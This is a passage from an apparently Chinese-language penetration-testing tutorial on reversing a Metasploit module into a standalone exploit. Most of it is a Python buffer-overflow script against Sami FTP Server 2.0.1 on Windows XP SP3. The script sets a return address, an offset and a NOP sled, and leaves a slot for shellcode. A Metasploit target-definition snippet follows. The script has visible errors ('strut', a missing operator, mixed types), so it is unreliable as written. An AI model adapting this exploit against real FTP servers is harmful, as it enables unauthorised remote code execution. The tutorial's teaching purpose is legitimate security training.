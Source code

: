最终的结果是一个可以在实际服务器上测试和运行的 Python 漏洞。这也为测试提供了一个很好的起点。如果您发现 Metasploit 模块不能完美地工作，那么将其反转以创建独立模块将为您提供解决可能问题的机会。

请记住，漏洞利用有一个评估系统，可以评估它们的可靠性。如果该漏洞具有较低的可靠性等级，则意味着它可能无法始终如一地产生所需的结果。这使您有机会尝试并改进实际的 Metasploit 模块，并为社区做出贡献。例如，此漏洞的评级较低；考虑测试并尝试改进它。

```
import sys, socket, strut
rhost = "192.168.195.159"
lhost = "192.168.195.172"
rport = 21
password = "badpassword@hacku.com"
username = "anonymous"
eip = struct.pack('<I',0x10028283)
offset = 228 - len(lhost)
nop  = "\x90" *16
shell =() #Shellcode was not inserted to save space
exploit = offset + eip + nop + shell
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((rhost, rport))
print(client.recv(1024))
client.send("USER " + username + "\r\n")
print(client.recv(1024))
client.send("PASS "password + "\r\n")
print(client.recv(1024))
print("[*] Sending exploit")
client.send("LIST" + exploit + "\r\n")
print(client.recv(1024))
client.close()
print("[*] Sent exploit to %s on port %s") % (rhost,rport)
```

现在，这个特定的漏洞是为 Windows XP SP 3 开发的。您现在可以使用此代码尝试并针对不同的平台。独立的 Python 攻击意味着您具有扩展该攻击的必要能力。然后可以向 Metasploit 模块添加其他目标。这可以通过修改模块的以下部分来完成。

![Reversing Metasploit modules](../Images/image00419.jpeg)

以下是如何使用其他相关目标更新实际模块中的代码：

```
'Targets'        =>
        [
          [ 'Sami FTP Server 2.0.1 / Windows XP SP 3',   { 'Ret' => 0x10028283, 'Offset' => 228 } ],
          [ 'New Definition', { 'Ret' => 0x#######, 'Offset' => ### } ],
```

从这个例子中，我们看到了如何反转 Metasploit 模块以创建独立的漏洞利用，该漏洞利用可用于扩展目标选择并提高未来漏洞利用的可靠性。

### 注

如果选择创建具有不同功能的新 Metasploit 模块或更新，并且不希望中断当前安装，则可以将自定义模块加载到 Metasploit 中。以下位置[详细记录了这些细节 https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules](https://github.com/rapid7/metasploit-framework/wiki/Loading-External-Modules) 。
